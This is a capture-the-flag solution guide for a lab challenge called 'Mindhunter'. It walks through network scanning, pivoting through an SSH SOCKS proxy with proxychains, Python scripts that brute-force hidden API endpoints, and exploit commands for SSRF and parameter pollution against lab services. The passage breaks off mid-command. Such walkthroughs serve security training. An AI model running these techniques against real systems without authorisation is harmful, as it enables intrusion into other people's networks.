# Mindhunter

This solution guide is designed to provide a detailed step-by-step explanation of how to solve the Mindhunter challenge. It includes code to exploit each vulnerability and retrieve the respective tokens.

## Terminology

In this guide and throughout the challenge, several terms may be interchanged to represent network protocols and features. The glossary can be found here:

* perspective - obtained through full enumeration and exploitation of a port service (5001/tcp, 5002/tcp, 5003/tcp, or 5004/tcp)
* parallax - point of view - your workstation and starting point of this challenge
* Mind, Body, Soul and Peace - these are the assets (parts of life) that are harboring a perspective to exploit
* SOCKS - a type of proxy that can forward any type of TCP traffic, not just web traffic, making it useful for various applications. 
* proxychains - a tool that allows you to route TCP connections through a proxy server, including SOCKS proxies. 

As it pertains to the story line, these terms are used to reinforce that each "level" of this challenge is a different perspective of the same application.

## Pre-requisites

Each Perspective service requires specific headers or tokens before allowing access. The following conditions exist and shape the challenge:
* Mind does not require anything except completing the magic endpoint pre-challenge (more information below)
* Body rejects requests unless the appropriate headers and values are present (including token 1).
* Soul rejects requests unless both token 1 and token 2 are present (with headers).
* Peace requires all previous tokens and the latest perspective (X-Perspective) to proceed.
* Inspecting responses carefully reveals hints that a missing token is required.

Additionally, once the challenger's proxy is established, navigating to each endpoint **per service port** is imperative to succeeding in this challenge:

REQUIREMENT: Challengers must interact with a subset of API endpoints, on top of using appropriate headers, in order to advance to the next "perspective".

Example:
1) User A navigates to 1 of 3 endpoints tied to the first service on port 5001. User exploits the vulnerability but does not navigate to the other two chosen endpoints (at random).

Result: ❌ FAILURE

2) User A find all the required endpoints for that specific perspective, exploits the vulnerability present and uses the next perspective's header set.

Result: ✅ SUCCESS. Access to the next perspective granted.

3) User A attempts to reach `body` from a non-proxied IP.

Result: ❌ FAILURE

4) User routes traffic through `perspective` and touches the first asset.

Result: ✅ SUCCESS. Access to the first asset.

### Network Diagram

Here is the neural network diagram presented to challengers:



While ominous, this does show us that at least 5 assets are present in the target environments.

## Getting Started

### Reconnaissance  

#### Setup
Upon staring the challenge and waiting the mandatory five minutes for setup, challengers can click the `pov` button located just under the Questions section of the challenge documentation presented.

Once on the machine, challengers should run the following command `ifconfig`:





This will yield several key pieces of information to the challenger:
* The asset being used has multiple network interface adapters
* This asset *may* be able to reach other assets in various networks
* There is the potential to detect the existence of assets among networks tied to the displayed subnets

💡 In times when `ifconfig` is not available, the `ip a` command can be useful.

### Detecting other assets
The tool NMAP can be used to detect the presence of other assets in these networks. Often times attackers may "scan" the network using TCP based detection as opposed to ICMP based (ping) as firewalls, especially internally, notoriously block this echo requests and responses (ICMP) from asset to asset.

Let's first build a list of IP ranges to scan based on our current network connections. In this case, the following networks are viable (based on our ifconfig output earlier):

```text
10.1.1.0/24
10.2.2.0/24
10.3.3.0/24
10.4.4.0/24
```

Performing this command will place them in a file in your `current working directory`. This directory parameter can be modified to use an absolute path `(e.g. /path/to/file)` if needed:

```bash
cat << EOF > hosts.txt
10.1.1.0/24
10.2.2.0/24
10.3.3.0/24
10.4.4.0/24
10.5.5.0/24
EOF
```

After pressing `Enter`, the file will be created. If this doesn't work, press `CTRL+D` to end the sequence.



Using the `cat hosts.txt` command afterwards yields the desired result:



### Starting the scan

Assuming you saved `hosts.txt` to your current working directory, we are able to do a quick sweep of all networks presented to us using the following command:

```bash
nmap -sT -vv -iL hosts.txt --open --stats-every 10s
```

Let's quickly breakdown this command:
1) "-sT" - conduct a TCP scan
2) "-pT:0-65535" - conduct a scan against all TCP ports
3) "-vv" - provide me with "very verbose" output
4) "-iL" - our host list (iL is the "input list" for this tool)
4) "hosts.txt" - This is where we stored the IP addresses and ranges being requested to be scanned 
5) "--open" - only show me information about assets with potentially open ports
6) "--stats-every Xs" - update the screen every X amount of seconds

Challengers should be presented with the following output:



#### Analysis
We have now discovered several assets in the `10.4.4.0/24` network (from parallax):

As the login information has been provided, challengers should then run the `NMAP command` previously provided, but from the asset located at `10.4.4.254` using the credentials `mindhunter` for the username and `mirrors` for the password. 

This asset is mentioned in the description and challengers have full control of the asset.

Here is a chart of the assets we found thus far:

| IP | Port | Objective |
|-----|-----|-----|
|10.4.4.20 | 5001 | Find your mind |
|10.4.4.21 | 5002 | Cleanse your body of toxins |
|10.4.4.22 | 5003 | Discover your soul by taking control of life |
|10.4.4.23 | 5004 | Find peace through patience |
|10.4.4.254 | 22 | soon to be known as "perspective" (our proxy) |

### Steps Forward

Now that we have another IP that **does not** appear to have the ability to communicate with our workstation directly, we must create a `proxy` or network redirection asset to talk to the server for us and give us our first chance at solving this challenge.

#### Choices
Challengers now have the option to either:
1) Use the `perspective asset` as-is with extremely limited tooling (less SSH'ing)
2) Attempt to use "X-Forwarded-For" as a header to mimic proxying
3) Create a proxy to redirect traffic from `parallax` to `perspective` and then out to each of the four servers.

##### Choice \#1
Bold move. This challenge can be completed with an object oriented programming language like `python` and the tool `curl`. Automation is key here.

##### Choice \#2
This is actually not allowed by server. The server does an additional check to verify the source of malicious traffic.

##### Choice \#3
In order to create a suitable proxy for this, we have several options:
1) SSH into `perspective`
2) Run the following command: SSH - this will create a dynamic SOCKS proxy that will allow us to interact with the web server *through* `perspective`

The following steps can be taken to accomplish this using a tool called `proxychains` which is installed on 
 `perspective`:

First, we establish a tunnel to proxy through using the following command: 

```bash
ssh -f -N -D 9050 user@10.4.4.254
```

Here's an iamge of this:



After entering your password, a tunnel will now be created.

Next, to configure Proxychains for SOCKS proxy, you need to edit the `/etc/proxychains4.conf` file, adding your SOCKS proxy server address and port (e.g., socks5 127.0.0.1 9050) to the [ProxyList] section. 
Here's a more detailed breakdown:
1. The main configuration file for Proxychains is /etc/proxychains4.conf. 
2. Open the configuration file with a text editor (e.g., sudo nano /etc/proxychains.conf). 
3. Find the [ProxyList] section: Scroll down to the section labeled [ProxyList]. 
4. Add your SOCKS proxy: Add a line with the format socks5 <SOCKS_SERVER_IP> <SOCKS_PORT> to the [ProxyList] section. 
Example: socks5 127.0.0.1 9050 (if your SOCKS proxy is on localhost, port 9050). 
5. Save the changes to the configuration file. 
6. (Test) Use proxychains with a command like proxychains <command> <arguments> to test if it's working correctly. 

Here's an example:

```bash
proxychains curl http://10.4.4.20:5001
```

This should force the connection through the chain showing an origin of `10.4.4.254`.



💡 Summary: Think of the flow as follows:

```text
parallax -> perspective -> destination (mind, body, soul, peace)
``` 

### API Explorer

Navigating to `http://10.4.4.20:5001/explorer.html` will yield a page (similar to this) with numerous API endpoints and how to interact with them (keep this for later):



**This step is critical**. Challenge completion relies on navigating to randomly selected endpoints as a secondary requirement for completion. Each server keeps track of what those endpoints are and if they were hit *before or after* an exploit attempt.

### Manual

A "manual" exists only on port 5001 on the first asset and is accessible by navigating to "http://10.4.4.20:5001/manual".


Don't let the animations fool you; behind it is a decent amount of information that may help challengers understand the structure of packets needed to be sent during each stage of this journey:



**NOTE:** The manual is not available in the later stages of the challenge.

### Magic Endpoint Requirement

In all of the components we explore (mind, body, soul and the art of peace), `curl` will serve as a basic but powerful tool to enumerate endpoints, exploit vulnerabilities and get tokens in the process.

1) This challenge is about exploration; we must return to the pool of endpoints that the `/explorer` endpoint has provided us after each objective is completed and attempt to find all of the **new** `magic endpoints` that have been assigned.

**NOTE** Each challenge requires the following:
* The right headers
* Tokens from previous exploitation
* Any new headers found in the `next_headers` JSON field

2) Let's first check out the `/explorer` endpoint mentioned on the document root at `http://10.4.4.20:5001/explorer`:

```bash
curl http://10.4.4.20:5001/explorer
```

The response back will be akin to the following (via embedded HTML). Think of JSON as a language that takes the form of a living dictionary:

```js
const endpoints = {
  "login": "...",
  "profile": "...",
  "settings": "...",
  ...
};
```

💡 At each juncture (new objective), we **won’t know** which endpoints are “special.” The servers will continue to hide them until you probe them manually.

#### Magic Endpoint Testing and Understanding Header Requirements

Accessing each endpoint manually is tedious and will yield a  403 Forbidden or 404 Not Found without the right headers. Let's first get this in order by appending `-H X-Forwarded-Mind: (VALUE OF TOKEN1)"` to our queries from here on out.

During each phase of your journey, you will need to discover `more of yourself`. Here are the number of endpoints required to be touched per round *before* the vulnerability is exposed to you for exploitation:
1) Mind - Four endpoints
2) Body - Eight endpoints
3) Soul - 16 endpoints
4) Peace - 32 endpoints

| machine name | Headers required | Magic Requirement | 
|--------------|--------------|--------------|
| mind | None | 4 | 
| body | X-Forwarded-Mind: `token1`, X-Perspective: "resilience"| 8  |  
| soul | X-Forwarded-Mind: `token1`, X-Forwarded-Body: `token2`, X-Perspective: "awakened"| 16  |  
| peace | X-Forwarded-Mind: `token1`, X-Forwarded-Body: `token2`, X-Forwarded-Soul: `token3`, X-Perspective: "acceptance"| 32 |  

This is called out on the `manual` endpoint in the `Mind` objective.

The X-Perspective values will be presented to challengers after the completion of each objective via the `next_headers` field on the JSON produced along with a respective token.

##### Manual Detection (Magic Endpoints): Known Good vs Bad
With this in mind (and still coming from the right IP address), we need to establish known good and bad behavior:

1) When you reach a magic endpoint (as found in the first objective), you gain credit towards a `new life concept` aka hit a checkpoint in your discovery process. At the end of each objective, your `general perspective` will **change**:

```bash
curl -s -H "X-Forwarded-Mind: token1" -H "X-Perspective: resilience" http://10.4.4.21:5002/login
```

If /settings was a `valid` magic endpoint, you will receive the following message.

```text
✅️ You have found the /settings perspective.
```

Live example:


2) Now that we know what's a positive response and what we're **not** looking for. In the example below, we'll give you an example of finding magic endpoints manually for the `body` challenge:

```bash
for ep in $(\`cat endpoints.txt\`); do
  echo "Testing /$ep"
  curl -s -H "X-Forwarded-Mind: token1" http://10.4.4.21:5002/$ep | grep 'You have found'
  echo
done
```

As long as you scrape the endpoint names from the `explorer`, you would eventually be able to hit the magic endpoints you need to get to the vulnerability at hand for that respective stage.

A significantly easier way to go about this (preferred) is to automate this process. A `bruteforcer` or rapid access attempt tool, can be found in the next section.

💡 Major note: `perspective` does not have a critical library (beautifulSoup/bs4). Challengers can use their `parallax` machine to build the bruteforcer as a standalone file using `pyinstaller --onefile --clean <filename>.py. The file will then exist in `<DIRECTORY WHERE THIS WAS EXECUTED>/build/dist/<EXECUTABLE>. You can then `scp <EXECUTABLE> user@10.4.4.254:/home/user/` to send it to `perspective` for use if **not** using parallax as your primary machine.

#### Automated Detection: Brute ForceBruteforce Script for Mind, Body and Soul objectives

The bruteforcer will detect all magic endpoints per objective as well as allow for adding headers you receive as you go along your journey:

```python
#!/usr/bin/env python3

import requests
import argparse
from bs4 import BeautifulSoup
import re

def parse_headers(header_list):
    """Parses headers from command-line input into a dictionary."""
    headers = {}
    if header_list:
        for header in header_list:
            if ":" in header:
                key, value = header.split(":", 1)
                headers[key.strip()] = value.strip()
    return headers

def get_endpoints(base_url, headers):
    """Scrapes all endpoints from the explorer page by parsing the JavaScript object."""
    try:
        resp = requests.get(f"{base_url}/explorer", headers=headers, timeout=5)
        resp.raise_for_status()
        soup = BeautifulSoup(resp.text, 'html.parser')
        scripts = soup.find_all('script')

        endpoints = []
        for script in scripts:
            if 'const endpoints =' in script.text:
                matches = re.findall(r'"(.*?)"\s*:', script.text)
                endpoints.extend(matches)

        # Format them into proper URL paths
        endpoints = [f"/{ep}" for ep in endpoints]
        return list(set(endpoints))  # Deduplicate
    except Exception as e:
        print(f"[!] Error fetching endpoints: {e}")
        return []

def visit_endpoints(base_url, endpoints, headers, magic_indicator="perspective"):
    """Visits each endpoint and checks for the magic indicator in the response."""
    found_magic = []

    print(f"\n[+] Visiting {len(endpoints)} endpoints...\n")
    for endpoint in endpoints:
        try:
            url = f"{base_url}{endpoint}"
            resp = requests.get(url, headers=headers, timeout=3)
            if magic_indicator in resp.text:
                print(f"✅️ {endpoint} --> Magic Endpoint Found!")
                found_magic.append(endpoint)
            else:
                print(f"➖ {endpoint} --> Ordinary Endpoint")
        except Exception as e:
            print(f"[!] Error visiting {endpoint}: {e}")

    return found_magic

def main():
    parser = argparse.ArgumentParser(description="Universal Magic Endpoint Finder with Dynamic JS Parsing")
    parser.add_argument("--host", required=True, help="Target server (IP or domain, no trailing slash)")
    parser.add_argument("--header", "-H", action="append", help="Optional headers in 'Key: Value' format (can specify multiple)", default=[])
    parser.add_argument("--port", type=int, default=5001, help="Port to connect to (default: 5001)")
    args = parser.parse_args()

    headers = parse_headers(args.header)
    base_url = f"http://{args.host}:{args.port}"

    print(f"[+] Scraping endpoints from {base_url}/explorer with headers: {headers}")

    endpoints = get_endpoints(base_url, headers)
    if not endpoints:
        print("[!] No endpoints found. Aborting.")
        return

    magic_endpoints = visit_endpoints(base_url, endpoints, headers)

    print("\n🎯 Summary: Magic Endpoints Found:")
    if magic_endpoints:
        for magic in magic_endpoints:
            print(f"  - {magic}")
    else:
        print("  - No magic endpoints detected.")

if __name__ == "__main__":
    main()
```

The break down of this script is:
1) Make requests to the /explorer endpoint
2) Scrape the page and create a list of endpoints
3) Navigate to each endpoint and use the 

Sample use of this tool can be found here (detecting endpoints in the Soul objective):

```python
proxychains python3 c47_magic_finder.py --host 10.4.4.22 --port 5003 -H "X-Forwarded-Mind: token1" -H "X-Forwarded-Body: token2" -H "X-Perspective: awakened"
```

Here is an image of this tool in action:



Here's the server's view of the activity:



#### Automated Detection: Bruteforcer for Peace objective 
In this section of the challenge, we find that we need a new perspective; the magic endpoints' responses are *inverted*.
When a magic endpoint is reached, it produces a HTTP 403 (Forbidden) message with a ❌ at the front of it as well as flips any queues initial determined to be part of a positive detection (e.g. ✅).

This script will detect this logic change:

```python
#!/usr/bin/env python3

import requests
import argparse

# Full list from your explorer.js (static endpoints)
endpoint_list = [
    "access", "activity", "admin", "admin_panel", "analytics", "api", "audit", "audit_log", "backup", "billing",
    "cache", "cart", "checkout", "config", "customer", "dashboard", "data", "database", "debug", "developer",
    "download", "email", "encode", "events", "export", "fetch", "file", "help", "hooks", "import", "integrations",
    "jobs", "login", "logout", "logs", "manual", "messages", "monitor", "notifications", "order", "payment",
    "permissions", "preferences", "profile", "queue", "renew", "report", "reset", "restore", "roles", "search",
    "security", "server_status", "sessions", "settings", "status", "stop", "subscription", "support", "sync",
    "system", "team", "timeout", "tokens", "update", "upload", "user", "user_settings", "verification",
    "webhooks", "worker", "workspace"
]

def test_endpoints(host, port, headers):
    base_url = f"http://{host}:{port}"
    magic_endpoints = []
    normal_endpoints = []

    print(f"[+] Testing {len(endpoint_list)} static endpoints...")
    for ep in endpoint_list:
        url = f"{base_url}/{ep}"
        try:
            resp = requests.get(url, headers=headers, timeout=10)
            status = resp.status_code
            if status == 403:
                print(f"❌ [MAGIC] {ep} responded with 403 Forbidden")
                magic_endpoints.append(f"/{ep}")
            elif status == 200:
                print(f"✅ [Normal] {ep} responded with 200 OK")
                normal_endpoints.append(f"/{ep}")
            else:
                print(f"⚠️ {ep} responded with {status}")
        except Exception as e:
            print(f"[!] Error testing {ep}: {e}")

    print("\n🎯 Summary:")
    print(f"Magic Endpoints (403 Forbidden): {magic_endpoints}")
    print(f"Normal Endpoints (200 OK): {normal_endpoints}")

def main():
    parser = argparse.ArgumentParser(description="Brute Force Magic Endpoints (Static List)")
    parser.add_argument("--host", required=True, help="Target host (e.g., 10.4.4.21)")
    parser.add_argument("--port", required=True, type=int, help="Target port (e.g., 5004)")
    parser.add_argument("--header", action="append", help="Optional headers to add (format: Key:Value)", default=[])
    args = parser.parse_args()

    # Build headers dictionary
    headers = {}
    for h in args.header:
        try:
            key, value = h.split(":", 1)
            headers[key.strip()] = value.strip()
        except:
            print(f"[!] Invalid header format: {h} (use Key:Value)")
            return

    test_endpoints(args.host, args.port, headers)

if __name__ == "__main__":
    main()
```

The syntax required for proper detection of the endpoints can be found here:

```bash
proxychains python3 c47_magic_soul_finder.py --host 10.4.4.23 --port 5004 \
  --header "X-Forwarded-Mind: token1" \
  --header "X-Forwarded-Body: token2" \
  --header "X-Forwarded-Soul: token3" \
  --header "X-Perspective: acceptance"
```

Here is an image of this upgraded tool in action:



## Questions

In this section, we'll go directly into solving these objectives with the core concepts from the last few sections in mind.

### Question 1

🧠 Obtained by changing views - exploit the first vulnerability (mind)

#### Solving Strategy

It is time to explore port 5001 which was discovered through reconnaissance of the 10.4.4.20 asset.

**Vulnerability Detected**: Server Side Request Forgery (SSRF)
This vulnerability occurs when adversaries are able to conduct (often remote) actions on behalf of a targeted server **without** it's consent. This can sometimes expose internal resources and bypass security measures if crafted appropriately.

The endpoint vulnerable is `/fetch` which can be found in the API Explorer ('/explorer') located at `http://10.4.4.20:5001/explorer`. 

*HINT*: At the bottom of the page, we find a message suggesting that two or more of the endpoints shown must be "interacted with" in order to progress (through your mind).

##### Understanding the Vulnerability

 💡 As with all objectives, we start with the endpoint enumeration process. You can use the `bruteforcer` we created in a previous section to determine the magic endpoints before proceeding.

1) `mind` is the name of this asset. It has an endpoint called `/fetch` which contains a vulnerable parameter called `url`. When first called, this endpoint complains about not having a URL provided. This is our chance to get closer to exploitation.

2) Try a basic request:

```bash
proxychains curl "http://10.4.4.20:5001/fetch?url=http://example.com"
```

In this challenge, the asset is air gapped. As a result, this domain, will not resolve. However, we do have access `to our own netspaces`. 

3) Try the command again but substitute the `example.com` for `the server's IP address or your own`.

```bash
proxychains curl "http://10.4.4.20:5001/fetch?url=http://10.4.4.20:5001"
```

Here's a python alternative:

```python
import requests

def exploit_ssrf():
    target = "http://10.4.4.20:5001/fetch?url=http://<ACCESSIBLE HOST>"
    response = requests.get(target)
    print(response.text)

exploit_ssrf()
```

4) Here's a visual of this command's execution:



DNS Rebinding is in play and will block attempts at using `localhost` or `127.0.0.1` as a valid answer.

This will immediately yield the first token of this challenge.

### Question 2

🥷 Obtained by drowning out the noise - a second view on things (body)

#### Solving Strategy

##### Understanding the Vulnerability

It is time to explore port 5002 which was discovered through reconnaissance of the `10.4.4.21` asset.

**Vulnerability Detected**: In this objective, we have a `HTTP Parameter Pollution` vulnerability. This vulnerability occurs when adversaries manipulate or inject parameters into URLs by exploiting the way applications handle multiple parameters with the same name, potentially bypassing security measures and leading to various attacks.

In this case, we'll find the vulnerable parameters in how the server processes JSON.

The endpoint vulnerable is `/stop` which can be found, as always, in the API Explorer ('/explorer') located at `http://10.4.4.21:5002/explorer`. 

**NOTE:** The `explorer` endpoint is open on all service ports.

##### Step One: Back to Enumeration

1) Use the `bruteforcer` we created in a previous section to determine the magic endpoints before proceeding.

2) `body` is the name of this asset. When the `meta`, `polluted`, and `__proto__` parameters are manipulated just right, a token, perspective and more headers are revealed.

##### Step Two: Post Enumeration Activities 

3) Post enumeration, let's try this:

Naturally, the bruteforcer or manual methods have yielded the action of touching this endpoint with a GET request. Trying that now will yield a unique error, 405 Method Not Allowed.

```bash
proxychains curl -X GET http://10.4.4.21:5002/stop
```

Result:

```text
405 Method Not Allowed
```

This tells us we're on the right track to talk to it however, we need the right `HTTP verb`. We can try `POST` which is in the top five most commons verbs used in HTTP communications. 

Let's also not forget to `take our mind with us` and add the `X-Forwarded-Mind: token1` and `X-Perspective` headers to our payload:

```bash
proxychains curl -X POST http://10.4.4.21:5002/stop -H "X-Forwarded-Mind: token1" -H "X-Perspective: resilience"
```

💡 Our goal is to center all the components of your being. You must bring along any new discoveries; in this case, they come in the form of headers.

##### Step Three: Protoyping
After interacting with the endpoint a bit, you will discover several hints presented depending on how far in the nest of the solution you are.

The final solution is:

```bash
curl -X POST http://10.4.4.21:5002/stop \
  -H "X-Forwarded-Mind: token1" \
  -H "X-Perspective: resilience" \
  -H "Content-Type: application/json" \
